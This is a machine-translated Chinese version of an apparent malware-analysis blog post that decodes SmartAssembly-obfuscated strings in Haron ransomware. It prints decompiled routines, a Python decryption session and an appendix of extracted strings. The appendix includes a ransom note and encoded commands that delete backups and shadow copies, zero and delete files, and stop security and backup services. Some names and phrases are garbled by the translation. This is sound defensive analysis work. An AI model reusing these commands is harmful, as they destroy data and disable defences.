

# 解码 SmartAssembly 字符串，霍上勒索病毒案例研究

> 原文：<https://medium.com/walmartglobaltech/decoding-smartassembly-strings-a-haron-ransomware-case-study-9d0c5af7080b?source=collection_archive---------6----------------------->

作者:杰森·里维斯


最近霍上勒索软件出现[1]据报道是基于阿瓦登和灭霸。的。基于. NET 的恶意软件和灭霸有很多相似之处，它的制造者被泄露了。使用 de4dot[3]我们可以快速重命名。NET 二进制，以便于逆向工程，但由于某种原因，我的版本没有解码出包含大多数字符串的资源部分。我遇到过几次这种情况，如果我们检查 Github repo，我们会注意到 de4dot 的 repo 已经存档，SmartAssembly[4]解码部分已经有一段时间没有更新了。

然后，我决定放弃手动解码 SmartAssembly 资源数据的笔记，因为我相信理解事物如何工作比依赖工具更重要，如果你理解事物如何工作，那么工具会变得有用，但如果你不理解，那么当它们停止工作时，你就被困住了。

我们将使用博客[2]中列出的示例:

```
6e6b78a1df17d6718daa857827a2a364b7627d9bfd6672406ad72b276014209c
```

在示例的大部分内容中，您会注意到字符串是使用函数检索的。



板载智能组件中包含了我们解码数据所需的所有相关代码。字符串存储在板载资源中:

```
public static string Get(int num)
  {
   num ^= 107396847;
   num -= Strings.offset;
   if (!Strings.cacheStrings)
   {
    return Strings.GetFromResource(num);
   }
   return Strings.GetCachedOrResource(num);
  }
```

并且资源数据被传递到板载 SmartAssembly SimpleZip 包:

```
using (Stream manifestResourceStream = Assembly.GetExecutingAssembly().GetManifestResourceStream("{e5c43f0f-0868-4f29-a2f6-76c871139ec3}"))
   {
    int num = Convert.ToInt32(manifestResourceStream.Length);
    byte[] array = new byte[num];
    manifestResourceStream.Read(array, 0, num);
    Strings.bytes = SimpleZip.Unzip(array);
   }
```

资源数据上似乎有标头，但似乎与压缩例程无关:

```
00000000: 7b7a 7d03 bd7f 953e a1ca bbad b1f2 97b6  {z}....>........
00000010: a036 bff2 7555 9ab2 6cbd 35ff 3e27 d40a  .6..uU..l.5.>'..
00000020: e3ff cd43 7ca8 bf19 aff2 a64c 2a5e fc57  ...C|......L*^.W
00000030: 1815 4212 d2ae 4f60 1240 5751 cbce 126e  ..B...O`.[@WQ](http://twitter.com/WQ)...n
00000040: 4efc a196 b849 8762 917c 2c2c 4888 52da  N....I.b.|,,H.R.
00000050: 8792 6eaf 4bfd 0430 2263 a42f d943 eda9  ..n.K..0"c./.C..
00000060: e739 3f20 b807 426e 222a fcaa d8de 9fd9  .9? ..Bn"*......
00000070: c623 6c81 6c53 507f 3f42 c49c 1bdc 6712  .#l.lSP.?B....g.
00000080: c57b 825a 4512 22df 6e64 60a2 124d 3520  .{.ZE.".nd`..M5 
00000090: f6ac 7209 0c85 1f27 fd34 4b32 275a f4f0  ..r....'.4K2'Z..
```

看看解压缩功能:

```
public static byte[] Unzip(byte[] array)
{
 SimpleZip.ZipStream zipStream = new SimpleZip.ZipStream(array);
 byte[] array2 = new byte[0];
 int expr_14 = zipStream.ReadInt();
 int num = expr_14 >> 24;
 if (expr_14 - (num << 24) == 8223355)
 {
  switch (num)
  {
  case 1:
  {
   int num2 = zipStream.ReadInt();
   array2 = new byte[num2];
   int num4;
   for (int i = 0; i < num2; i += num4)
   {
    int num3 = zipStream.ReadInt();
    num4 = zipStream.ReadInt();
    byte[] array3 = new byte[num3];
    zipStream.Read(array3, 0, array3.Length);
    new SimpleZip.Inflater(array3).Inflate(array2, i, num4);
   }
   goto IL_119;
  }
```

我们可以看到一个标题检查:

```
>>> struct.pack('<I', 8223355)
'{z}\x00'
```

后跟基于“{z}”后的字节值的 switch 语句，在我们的实例中，该值为“3”，最终用于 AES 解密数据:

```
using (ICryptoTransform aesTransform = SimpleZip.GetAesTransform(byte_, byte_2, true))
   {
    array = SimpleZip.Unzip(aesTransform.TransformFinalBlock(byte_0, 4, byte_0.Length - 4));
    goto IL_116;
   }
```

用于解码该层的 Python POC 代码:

```
>>> key
[173, 71, 103, 143, 24, 92, 171, 185, 16, 72, 196, 74, 61, 106, 24, 171]
>>> iv
[185, 68, 36, 124, 25, 234, 226, 209, 103, 0, 216, 152, 89, 46, 55, 63]
>>> key = ''.join(map(chr,key))
>>> key
'\xadGg\x8f\x18\\\xab\xb9\x10H\xc4J=j\x18\xab'
>>> iv = ''.join(map(chr,iv))
>>> iv
'\xb9D$|\x19\xea\xe2\xd1g\x00\xd8\x98Y.7?'
>>> aes = AES.new(key, AES.MODE_CBC, iv)
>>> t = aes.decrypt(data[4:])
>>> t[:100]
'{z}\x01O}\x00\x00\x1d8\x00\x00O}\x00\x00\xcd\xbd;s\xe3\xc8\xb6&z\r\x192\xca(\xa3\x8d2\xdahc\x8c\x8e\x986\x00P\xa8iE\xb4"vQ\x04@B\x02XL"3\x89\x8ck\x0c@p\x0b"\x12\x14J\xa4\xc4\x87\xb5\x9d\x1b1\xe3L\x1cs~\xce\xfc\xb4\xf9V\x92\x92(\x8a\xa5\xea>{\xdf8\xc7(\xb1\xf0\xc8'
```

因此，解密后的数据上有另一个“{z}”标头，但这次 switch 语句的字节是“1”。

这将导致扁平减压:

```
>>> struct.unpack_from('<IIII', t)
(25000571, 32079, 14365, 32079)
>>> zlib.decompress(t[16:],-15)
'\x04WUVT\x10VkdGemEyMW5jZz09\x10ZEdGemEyMW5jZz09\x1cVUhKdlkyVnpjMGhoWTJ0bGNnPT0=\x10Y0hKdlkyVjRjQT09\x10Y0hKdlkyVjRjRFkwhVTJWMExVMXdVSEpsWm1WeVpXNWpaU0F0Ulc1aFlteGxRMjl1ZEhKdmJHeGxaRVp2YkdSbGNrRmpZMlZ6Y3lCRWFYTmhZbXhsWkE9PQ==\x04XA==\x10Q29uZmlnLmVuYw==\x14UHJpb3JpdHlQYXRoPQ==\x14WDpcQ3VzdG9tUGF0aDE=\x14WjpcQ3VzdG9tUGF0aDI=\x1cXFxEb21haW5cUGF0aFxGb2xkZXI=\x0cTmV0d29yaz0=\x08dHJ1ZQ==\x08ZmFsc2U=\x04Tk8=,Q29uZmlndXJhdGlvbiB0ZXh0IGZpbGUgZXJyb3I6IA==\x0cY21kLmV4ZQ==HTDJNZ2NtUWdMM01nTDNFZ0pWTlpVMVJGVFVSU1NWWkZKVnhjSkZKbFkzbGpiR1V1WW1sdQ==,SjVHWlkySzM2RjBBM1IzUzJaRVdVUVhRMVpEMUo2RjU=\x18UTJ4cFpXNTBJRWxRT2lBPQ==(YUhSMGNEb3ZMMmxqWVc1b1lYcHBjQzVqYjIwPQ==\x04DQo=(UkdGMFpTQnZaaUJsYm1OeWVYQjBhVzl1T2lBPQ==8UTJ4cFpXNTBJRlZ1YVhGMVpTQkpaR1Z1ZEdsbWFXVnlJRXRsZVRvZw==\x1cDQpBZGRpdGlvbmFsIEtleUlEOiA=0RXJyb3Igd2hpbGUgY3JlYXRpbmcgTG9jYWwgUmVwb3J0OiA=
```

看起来我们现在有一长串 base64 编码的数据，前面是字符串的长度，在解析和解码所有字符串后，我们剩下一长串字符串[附录 1]，其中一些是进一步的 Base64 编码:

```
NDA5NiE8UlNBS2V5VmFsdWU+PE1vZHVsdXM+aWIvYm0yWU1HOEFnd2xXSVdTYjhZbE1hUVN3TlVqaUd6SUMxNEpMYm8rV3JkaVIzUUNRQ1J5UU0wNWEyb001aVdMTmlIRTdPS212TmFmZTJ3VEk5cHpnSkpraGgzc2hiYnRKSlpMdGxuM05IdVVhNytXWndLeWVHSDh6N3Y5TGJnOFhnTVpKbGFIUExaOFdSdE9ySXE4cmNOWUVzczlZbGFUWDFYd3duVEZPbmZzcmZYNjJjZWxXeXdDT0FRU081TytKbHRsWkxTNDFFYitoWGwrZ3UwaTFyQzZMWGdNcU9oMHhkRElKSW10Qm8vT1E0TVZydjBLbkliY3F4allHbnRuY1Iyd3piNVIwVU5SZzdkUGgzQm1QL2VNMDhlRG5zUEduclN1b3ZySzZxVHgyOHdiU1lUbUkxeFFNMTlFay9KcEpxL2M3YXNxVyt6SjR0MnpYODZURkFBTDhsdStKNFhaYmk3emNNdEdHdk4xMDRFT1pGZmZkYkxKUDIvRkNuT1ZaNUc1WlpCNkNZMm40em9SNDZBMzZxZFhBaFRMTUxVRzFwQThsWEZ6NnZGQjd2Yk1QdlRxTTlSOXV3VUloUmRDNWd5ZHl4akZXK3oyU29Tb2JkWk83ZkhleHNkd2FhYnp5QmhSSlFOUWNhYjk1emlxY01ONEl6OXdTYUtQRTUzckNvdmN5SlVEUW9EUlZkZHphRkUwQ3RPQStUU3lLK3N0SHV1eUhWM1VuSUo0VDZOU04wL3VGYnMyaW5RaVFlbkFDaEF6MFdWQzByTXNvNlpJVG8wTUordFgwRkFVWWQ3b1pqSlMvams5L2xoTExWMXdWMlZhN0dwTi9Tc1ZMZk1obzA4NXRNWTJJYzBaY0o2Tm9CaXd0YjZEOGRwdjBWenRndFZUeWpCdGs9PC9Nb2R1bHVzPjxFeHBvbmVudD5BUUFCPC9FeHBvbmVudD48L1JTQUtleVZhbHVlPg==
```

解码:

```
4096!<RSAKeyValue><Modulus>ib/bm2YMG8AgwlWIWSb8YlMaQSwNUjiGzIC14JLbo+WrdiR3QCQCRyQM05a2oM5iWLNiHE7OKmvNafe2wTI9pzgJJkhh3shbbtJJZLtln3NHuUa7+WZwKyeGH8z7v9Lbg8XgMZJlaHPLZ8WRtOrIq8rcNYEss9YlaTX1XwwnTFOnfsrfX62celWywCOAQSO5O+JltlZLS41Eb+hXl+gu0i1rC6LXgMqOh0xdDIJImtBo/OQ4MVrv0KnIbcqxjYGntncR2wzb5R0UNRg7dPh3BmP/eM08eDnsPGnrSuovrK6qTx28wbSYTmI1xQM19Ek/JpJq/c7asqW+zJ4t2zX86TFAAL8lu+J4XZbi7zcMtGGvN104EOZFffdbLJP2/FCnOVZ5G5ZZB6CY2n4zoR46A36qdXAhTLMLUG1pA8lXFz6vFB7vbMPvTqM9R9uwUIhRdC5gydyxjFW+z2SoSobdZO7fHexsdwaabzyBhRJQNQcab95ziqcMN4Iz9wSaKPE53rCovcyJUDQoDRVddzaFE0CtOA+TSyK+stHuuyHV3UnIJ4T6NSN0/uFbs2inQiQenAChAz0WVC0rMso6ZITo0MJ+tX0FAUYd7oZjJS/jk9/lhLLV1wV2Va7GpN/SsVLfMho085tMY2Ic0ZcJ6NoBiwtb6D8dpv0VztgtVTyjBtk=</Modulus><Exponent>AQAB</Exponent></RSAKeyValue>
```

因此，让我们循环并尝试解码出所有二级 base64 编码字符串，其中一些似乎与灭霸勒索病毒类似:

```
>>> for val in strings:
...   try:
...     print(base64.b64decode(val))
...   except:
...     try:
...       print(base64.b64decode(val[::-1]))
...     except:
...       pass
```

完整列表可在附录 2 中找到，但有一个有趣的列表非常突出:

```
Thanos
```

## 参考

1.  [https://the record . media/new-haron-ransomware-gang-emerges-lending-from-avaddon-and-thanos/](https://therecord.media/new-haron-ransomware-gang-emerges-borrowing-from-avaddon-and-thanos/)
2.  [https://medium . com/s2wlab/quick-analysis-of-haron-ransomware-feat-avaddon-and-thanos-1 ebb 70 f 64 DC 4](/s2wlab/quick-analysis-of-haron-ransomware-feat-avaddon-and-thanos-1ebb70f64dc4)
3.  【https://github.com/de4dot/de4dot 
4.  [https://www . red-gate . com/products/dot net-development/smart assembly/](https://www.red-gate.com/products/dotnet-development/smartassembly/)

## 附录

1:

```
YES
VGFza21ncg==
dGFza21ncg==
UHJvY2Vzc0hhY2tlcg==
cHJvY2V4cA==
cHJvY2V4cDY0
U2V0LU1wUHJlZmVyZW5jZSAtRW5hYmxlQ29udHJvbGxlZEZvbGRlckFjY2VzcyBEaXNhYmxlZA==
\
Config.enc
PriorityPath=
X:\CustomPath1
Z:\CustomPath2
\\Domain\Path\Folder
Network=
true
false
NO
Configuration text file error: 
cmd.exe
L2MgcmQgL3MgL3EgJVNZU1RFTURSSVZFJVxcJFJlY3ljbGUuYmlu
J5GZY2K36F0A3R3S2ZEWUQXQ1ZD1J6F5
Q2xpZW50IElQOiA=
aHR0cDovL2ljYW5oYXppcC5jb20=RGF0ZSBvZiBlbmNyeXB0aW9uOiA=
Q2xpZW50IFVuaXF1ZSBJZGVudGlmaWVyIEtleTogAdditional KeyID: 
Error while creating Local Report: 
Installer...
Ctrl+Shift+X
Files securing is about to start...
A:\
B:\
C:\
D:\
E:\
F:\
G:\
H:\
I:\
J:\
K:\
L:\
M:\
N:\
O:\
P:\
Q:\
R:\
S:\
T:\
U:\
V:\
W:\
X:\
Y:\
Z:\
dat
txt
jpeg
gif
jpg
png
php
cs
cpp
rar
zip
html
htm
xlsx
xls
avi
mp4
ppt
doc
docx
sxi
sxw
odt
hwp
tar
bz2
mkv
eml
msg
ost
pst
edb
sql
accdb
mdb
dbf
odb
myd
java
pas
asm
key
pfx
pem
p12
csr
gpg
aes
vsd
odg
raw
nef
svg
psd
vmx
vmdk
vdi
lay6
sqlite3
sqlitedb
class
mpeg
djvu
tiff
backup
pdf
cert
docm
xlsm
dwg
bak
qbw
nd
tlg
lgb
pptx
mov
xdw
ods
wav
mp3
aiff
flac
m4a
csv
ora
mdf
ldf
ndf
dtsx
rdl
dim
mrimg
qbb
rtf
7z
.chaddad
Finish process: 
\RESTORE_FILES_INFO.txtLS0tLS0tLT09PSBZb3VyIG5ldHdvcmsgaGFzIGJlZW4gaW5mZWN0ZWQhID09PS0tLS0tLS0NCg0KDQoNCioqKkRPIE5PVCBERUxFVEUgVEhJUyBGSUxFIFVOVElMIEFMTCBZT1VSIERBVEEgSEFWRSBCRUVOIFJFQ09WRVJFRCoqKg0KDQpBbGwgeW91ciBkb2N1bWVudHMsIHBob3RvcywgZGF0YWJhc2VzIGFuZCBvdGhlciBpbXBvcnRhbnQgZmlsZXMgaGF2ZSBiZWVuIGVuY3J5cHRlZCAuIA0KWW91IGFyZSBub3QgYWJsZSB0byBkZWNyeXB0IGl0IGJ5IHlvdXJzZWxmLiBCdXQgZG9uJ3Qgd29ycnksIHdlIGNhbiBoZWxwIHlvdSB0byByZXN0b3JlIGFsbCB5b3VyIGZpbGVzISANClRoZSBvbmx5IHdheSB0byByZXN0b3JlIHlvdXIgZmlsZXMgaXMgdG8gYnV5IG91ciBzcGVjaWFsIHNvZnR3YXJlLiBPbmx5IHdlIGNhbiBnaXZlIHlvdSB0aGlzIHNvZnR3YXJlIGFuZCBvbmx5IHdlIGNhbiByZXN0b3JlIHlvdXIgZmlsZXMhDQoNCldlIGhhdmUgYWxzbyBkb3dubG9hZGVkIGEgbG90IG9mIHByaXZhdGUgZGF0YSBmcm9tIHlvdXIgbmV0d29yay4gDQpJZiB5b3UgZG8gbm90IGNvbnRhY3QgYXMgaW4gYSAzIGRheXMgd2Ugd2lsbCBwb3N0IGluZm9ybWF0aW9uIGFib3V0IHlvdXIgYnJlYWNoIG9uIG91ciBwdWJsaWMgbmV3cyB3ZWJzIGh0dHA6Ly9mdDR6cjJqemxxb3lvYjd5ZzRmY3B3eXQzN2hveDNhamFqcW5ma2R2YmZya2ppb3l1bm1xbnBhZC5vbmlvbiBhbmQgYWZ0ZXIgNyBkYXlzIHRoZSB3aG9sZSBkb3dubG9hZGVkIGluZm8uIA0KWW91IGNhbiBnZXQgbW9yZSBpbmZvcm1hdGlvbiBvbiBvdXIgcGFnZSwgd2hpY2ggaXMgbG9jYXRlZCBpbiBhIFRvciBoaWRkZW4gbmV0d29yay4gDQoNCg0KSG93IHRvIGdldCB0byBvdXIgcGFnZSANCi0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tIA0KMS5Eb3dubG9hZCBUb3IgYnJvd3NlciAtIGh0dHBzOi8vd3d3LnRvcnByb2plY3Qub3JnLw0KDQoyLkluc3RhbGwgVG9yIGJyb3dzZXINCg0KMy5PcGVuIGxpbmsgaW4gVG9yIGJyb3dzZXIgLWh0dHA6Ly9mdDR6cjJqemxxb3lvYjd5ZzRmY3B3eXQzN2hveDNhamFqcW5ma2R2YmZya2ppb3l1bm1xbnBhZC5vbmlvbg0KDQo0LlVzZSBsb2dpbjpDaGFkZGFkZ3JvdXAgcGFzc3dvcmQ6IENoYWRkYWRncm91cCANCg0KNS5Gb2xsb3cgdGhlIGluc3RydWN0aW9ucyBvbiB0aGlzIHBhZ2UgDQoNCg0KDQoNCiogRE8gTk9UIFRSWSBUTyBSRUNPVkVSIEZJTEVTIFlPVVJTRUxGISoNCiogRE8gTk9UIE1PRElGWSBFTkNSWVBURUQgRklMRVMhIA0KKiAqICogT1RIRVJXSVNFLCBZT1UgTUFZIExPU0UgQUxMIFlPVVIgRklMRVMgRk9SRVZFUiEgKiAqICoNCg0KIA0K
S2V5IElkZW50aWZpZXI6IA==
TnVtYmVyIG9mIGZpbGVzIHRoYXQgd2VyZSBwcm9jZXNzZWQgaXM6IA==
UEMgSGFyZHdhcmUgSUQ6IA==Additional KeyId:\RESTORE_FILES_INFO.hta
PCEtLSAjIyMjIyMjICBZQVksIEkgQU0gVEhFIFNPVVJDRSBFRElUT1IhICMjIyMjIyMjIy0tPgo8cCBzdHlsZT0idGV4dC1hbGlnbjogY2VudGVyOyI+PHNwYW4gc3R5bGU9ImJhY2tncm91bmQtY29sb3I6ICMwMDAwMDA7IGNvbG9yOiAjZmYwMDAwOyI+PHN0cm9uZz4tLS0tLS0tPT09IFlvdXIgbmV0d29yayBoYXMgYmVlbiBpbmZlY3RlZCEgPT09LS0tLS0tLTwvc3Ryb25nPjwvc3Bhbj48L3A+CjxwIHN0eWxlPSJ0ZXh0LWFsaWduOiBjZW50ZXI7Ij48YnIgLz48YnIgLz48c3Ryb25nPioqKkRPIE5PVCBERUxFVEUgVEhJUyBGSUxFIFVOVElMIEFMTCBZT1VSIERBVEEgSEFWRSBCRUVOIFJFQ09WRVJFRCoqKjwvc3Ryb25nPjxiciAvPjxiciAvPkFsbCB5b3VyIGRvY3VtZW50cywgcGhvdG9zLCBkYXRhYmFzZXMgYW5kIG90aGVyIGltcG9ydGFudCBmaWxlcyBoYXZlIGJlZW4gZW5jcnlwdGVkIC4gPGJyIC8+WW91IGFyZSBub3QgYWJsZSB0byBkZWNyeXB0IGl0IGJ5IHlvdXJzZWxmLiBCdXQgZG9uJ3Qgd29ycnksIHdlIGNhbiBoZWxwIHlvdSB0byByZXN0b3JlIGFsbCB5b3VyIGZpbGVzISA8YnIgLz5UaGUgb25seSB3YXkgdG8gcmVzdG9yZSB5b3VyIGZpbGVzIGlzIHRvIGJ1eSBvdXIgc3BlY2lhbCBzb2Z0d2FyZS4gT25seSB3ZSBjYW4gZ2l2ZSB5b3UgdGhpcyBzb2Z0d2FyZSBhbmQgb25seSB3ZSBjYW4gcmVzdG9yZSB5b3VyIGZpbGVzITwvcD4KPHA+V2UgaGF2ZSBhbHNvIGRvd25sb2FkZWQgYSBsb3Qgb2YgcHJpdmF0ZSBkYXRhIGZyb20geW91ciBuZXR3b3JrLiA8YnIgLz5JZiB5b3UgZG8gbm90IGNvbnRhY3QgYXMgaW4gYSAzIGRheXMgd2Ugd2lsbCBwb3N0IGluZm9ybWF0aW9uIGFib3V0IHlvdXIgYnJlYWNoIG9uIG91ciBwdWJsaWMgbmV3cyB3ZWJzIDxzdHJvbmc+aHR0cDovL2Z0NHpyMmp6bHFveW9iN3lnNGZjcHd5dDM3aG94M2FqYWpxbmZrZHZiZnJramlveXVubXFucGFkLm9uaW9uPC9zdHJvbmc+IGFuZCBhZnRlciA3IGRheXMgdGhlIHdob2xlIGRvd25sb2FkZWQgaW5mby4gPGJyIC8+WW91IGNhbiBnZXQgbW9yZSBpbmZvcm1hdGlvbiBvbiBvdXIgcGFnZSwgd2hpY2ggaXMgbG9jYXRlZCBpbiBhIFRvciBoaWRkZW4gbmV0d29yay4gPGJyIC8+PGJyIC8+PGJyIC8+PHN0cm9uZz5Ib3cgdG8gZ2V0IHRvIG91ciBwYWdlIDwvc3Ryb25nPjxiciAvPjxzdHJvbmc+LS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS08L3N0cm9uZz4gPGJyIC8+MS5Eb3dubG9hZCBUb3IgYnJvd3NlciAtIDxhIGhyZWY9Imh0dHBzOi8vd3d3LnRvcnByb2plY3Qub3JnLyI+aHR0cHM6Ly93d3cudG9ycHJvamVjdC5vcmcvPC9hPjwvcD4KPHA+Mi5JbnN0YWxsIFRvciBicm93c2VyPC9wPgo8cD4zLk9wZW4gbGluayBpbiBUb3IgYnJvd3NlciAtPGEgaHJlZj0iaHR0cDovL2Z0NHpyMmp6bHFveW9iN3lnNGZjcHd5dDM3aG94M2FqYWpxbmZrZHZiZnJramlveXVubXFucGFkLm9uaW9uIj5odHRwOi8vZnQ0enIyanpscW95b2I3eWc0ZmNwd3l0Mzdob3gzYWphanFuZmtkdmJmcmtqaW95dW5tcW5wYWQub25pb248L2E+PC9wPgo8cD40LlVzZSBsb2dpbjo8c3BhbiBzdHlsZT0idGV4dC1kZWNvcmF0aW9uOiB1bmRlcmxpbmU7Ij48c3Ryb25nPkNoYWRkYWRncm91cDwvc3Ryb25nPjwvc3Bhbj4gcGFzc3dvcmQ6IDxzcGFuIHN0eWxlPSJ0ZXh0LWRlY29yYXRpb246IHVuZGVybGluZTsiPjxzdHJvbmc+Q2hhZGRhZGdyb3VwJm5ic3A7PC9zdHJvbmc+PC9zcGFuPjwvcD4KPHA+NS5Gb2xsb3cgdGhlIGluc3RydWN0aW9ucyBvbiB0aGlzIHBhZ2UgPGJyIC8+PGJyIC8+PC9wPgo8cCBzdHlsZT0idGV4dC1hbGlnbjogY2VudGVyOyI+PGJyIC8+PHN0cm9uZz4qIERPIE5PVCBUUlkgVE8gUkVDT1ZFUiBGSUxFUyBZT1VSU0VMRiEqPC9zdHJvbmc+PGJyIC8+PHN0cm9uZz4qIERPIE5PVCBNT0RJRlkgRU5DUllQVEVEIEZJTEVTISA8L3N0cm9uZz48YnIgLz48c3Ryb25nPiogKiAqIE9USEVSV0lTRSwgWU9VIE1BWSBMT1NFIEFMTCBZT1VSIEZJTEVTIEZPUkVWRVIhICogKiAqPC9zdHJvbmc+PC9wPgo8cD4mbmJzcDs8L3A+PHAgc3R5bGU9InRleHQtYWxpZ246IGNlbnRlcjsiPktleSBJZGVudGlmaWVyOiA=
PC9wPg==
PHAgc3R5bGU9InRleHQtYWxpZ246IGNlbnRlcjsiPg==
URL
USERNAME
ACCESOUG9zc2libGUgYWZmZWN0ZWQgZmlsZXM6IA==
bm90ZXBhZC5leGU=
bXNodGEuZXhl
Error deleting config text file:
All Done!
EVET
VGhpcyBwcm9ncmFtIHJlcXVpcmVzIE1pY3Jvc29mdCAuTkVUIEZyYW1ld29yayB2LiA0LjgyIG9yIHN1cGVyaW9yIHRvIHJ1biBwcm9wZXJseQ==
SW5mb3JtYXRpb24uLi4=
C:\Program Files\
C:\Program Files (x86)\
:\Windows\
perflogs
internet explorer
:\ProgramData\
\AppData\
msocache
system volume information
boot
tor browser
mozilla
appdata
google chrome
application data
autoexec.bat
desktop.ini
autorun.inf
ntuser.dat
NTUSER.DAT
iconcache.db
bootsect.bak
boot.ini
ntuser.dat.log
thumbs.db
bootmgr
pagefile.sys
config.sys
ntuser.ini
QnVpbGRlcl9Mb2c=
RSAKeys
RESTORE_FILES_INFO
exe
dll
EXE
DLL
Recycle.Bin
select * from Win32_NetworkConnection
\\
\\\\
"
IPC$
powershell
\\\\[a-zA-Z0-9\.\-_]{1,}(\\[a-zA-Z0-9\-_]{1,}){1,}[\$]{0,1}
Network scanning completed...
tVGdzl3UcNXZpNWas9GUc52bpNnclZFduVmcyV3QcN3dvRmbpdFX0Z2bz9mcjlWTcVkUBdFVG90U
TG9jYWxBY2NvdW50VG9rZW5GaWx0ZXJQb2xpY3k=
RW5hYmxlTGlua2VkQ29ubmVjdGlvbnM=
Scanning for manually mapped resources...
Scanning for manually mapped resources completed...
cG93ZXJzaGVsbC5leGU=
&
==wcu9Wa0B3Tg42bpRXdjVGeFBSZslmRgU2Zh1WSc52bpNnclZFduVmcyV3QcRlTgM3dvRmbpdFX0Z2bz9mcjlWTcVkUBdFVG90U
dnNzYWRtaW4uZXhl
d21pYy5leGU=
d2JhZG1pbi5leGU=
YmNkZWRpdC5leGU=
ZGlza3NoYWRvdy5leGU=
bmV0LmV4ZQ==
u9Wa0F2YpxGcwFEXn9GT05WZ2VEXzV2YpZnclNFX0V2Us9mc052bDRnblJnc1NEXNVEVTl1U
UmFjY2luZQ==
=UkUBdFVG90U
dGFza2tpbGw=
L0YgL0lNIFJhY2NpbmVTZXR0aW5ncy5leGU=
cmVn
ZGVsZXRlICJIS0NVXFNPRlRXQVJFXE1pY3Jvc29mdFxXaW5kb3dzXEN1cnJlbnRWZXJzaW9uXFJ1biIgL1YgIlJhY2NpbmUgVHJheSIgL0Y=
ZGVsZXRlIEhLQ1VcU29mdHdhcmVcUmFjY2luZSAvRg==
c2NodGFza3M=
L0RFTEVURSAvVE4gIlJhY2NpbmUgUnVsZXMgVXBkYXRlciIgL0Y=
R290QWxsRG9uZQ==
==QblR3c5NVZslmRcx2byRnbvNEX0V2Us9mc052bDRnblJnc1NEXNVEVTl1U
TG9uZ1BhdGhzRW5hYmxlZA==
bmV0c2g=
YWR2ZmlyZXdhbGwgZmlyZXdhbGwgc2V0IHJ1bGUgZ3JvdXA9XCJOZXR3b3JrIERpc2NvdmVyeVwiIG5ldyBlbmFibGU9WWVz
YWR2ZmlyZXdhbGwgZmlyZXdhbGwgc2V0IHJ1bGUgZ3JvdXA9XCJGaWxlIGFuZCBQcmludGVyIFNoYXJpbmdcIiBuZXcgZW5hYmxlPVllcw==
L0MgcGluZyAxMjcuMC4wLjcgLW4gMyA+IE51bCAmIGZzdXRpbCBmaWxlIHNldFplcm9EYXRhIG9mZnNldD0wIGxlbmd0aD01MjQyODgg4oCcJXPigJ0gJiBEZWwgL2YgL3Eg4oCcJXPigJ0=
L0MgY2hvaWNlIC9DIFkgL04gL0QgWSAvVCAzICYgRGVsIA==
File:
 - Error while removing readonly attribute:
95
2222A
98SE
98
Me
NT 3.51
NT 4.0
2000
XP
Vista
7
8
8.1
10
WindowsError while writing Temp Folder Report:
[auto]
Qzpc
.*
.part
 - Error while fully writing to file:
c2MuZXhl
dGFza2tpbGwuZXhl
/IM
 /f
lhXZu4WatRWYzNnd
ZGVsLmV4ZQ==
10.
172.
192.168.
\Users
100000000
0
bHNhc3MuZXhl
c3ZjaHN0LmV4ZQ==
Y3Jjc3MuZXhl
Y2hyb21lMzIuZXhl
ZmlyZWZveC5leGU=
Y2FsYy5leGU=
bXlzcWxkLmV4ZQ==
ZGxsaHN0LmV4ZQ==
b3BlcmEzMi5leGU=
bWVtb3AuZXhl
c3Bvb2xjdi5leGU=
Y3RmbW9tLmV4ZQ==
U2t5cGVBcHAuZXhl
03187640-a7db-4a1d-b726-2be1af1fc283
c3RhcnQgRG5zY2FjaGUgL3k=
c3RhcnQgRkRSZXNQdWIgL3k=
c3RhcnQgU1NEUFNSViAveQ==
c3RhcnQgdXBucGhvc3QgL3k=
c3RvcCBhdnBzdXMgL3k=
c3RvcCBNY0FmZWVETFBBZ2VudFNlcnZpY2UgL3k=
c3RvcCBtZmV3YyAveQ==
c3RvcCBCTVIgQm9vdCBTZXJ2aWNlIC95
c3RvcCBOZXRCYWNrdXAgQk1SIE1URlRQIFNlcnZpY2UgL3k=
c3RvcCBEZWZXYXRjaCAveQ==
c3RvcCBjY0V2dE1nciAveQ==
c3RvcCBjY1NldE1nciAveQ==
c3RvcCBTYXZSb2FtIC95
c3RvcCBSVFZzY2FuIC95
c3RvcCBRQkZDU2VydmljZSAveQ==
c3RvcCBRQklEUFNlcnZpY2UgL3k=
c3RvcCBJbnR1aXQuUXVpY2tCb29rcy5GQ1MgL3k=
c3RvcCBRQkNGTW9uaXRvclNlcnZpY2UgL3k=
c3RvcCBZb29CYWNrdXAgL3k=
c3RvcCBZb29JVCAveQ==
c3RvcCB6aHVkb25nZmFuZ3l1IC95
c3RvcCBzdGNfcmF3X2FnZW50IC95
c3RvcCBWU05BUFZTUyAveQ==
c3RvcCBWZWVhbVRyYW5zcG9ydFN2YyAveQ==
c3RvcCBWZWVhbURlcGxveW1lbnRTZXJ2aWNlIC95
c3RvcCBWZWVhbU5GU1N2YyAveQ==
c3RvcCB2ZWVhbSAveQ==
c3RvcCBQRFZGU1NlcnZpY2UgL3k=
c3RvcCBCYWNrdXBFeGVjVlNTUHJvdmlkZXIgL3k=
c3RvcCBCYWNrdXBFeGVjQWdlbnRBY2NlbGVyYXRvciAveQ==
c3RvcCBCYWNrdXBFeGVjQWdlbnRCcm93c2VyIC95
c3RvcCBCYWNrdXBFeGVjRGl2ZWNpTWVkaWFTZXJ2aWNlIC95
c3RvcCBCYWNrdXBFeGVjSm9iRW5naW5lIC95
c3RvcCBCYWNrdXBFeGVjTWFuYWdlbWVudFNlcnZpY2UgL3k=
c3RvcCBCYWNrdXBFeGVjUlBDU2VydmljZSAveQ==
c3RvcCBBY3JTY2gyU3ZjIC95
c3RvcCBBY3JvbmlzQWdlbnQgL3k=
c3RvcCBDQVNBRDJEV2ViU3ZjIC95
c3RvcCBDQUFSQ1VwZGF0ZVN2YyAveQ==
c3RvcCBzb3Bob3MgL3k=
c3RvcCDigJxBY3JvbmlzIFZTUyBQcm92aWRlcuKAnSAveQ==
c3RvcCBNc0R0c1NlcnZlciAveQ==
c3RvcCBJSVNBZG1pbiAveQ==
c3RvcCBNU0V4Y2hhbmdlRVMgL3k=
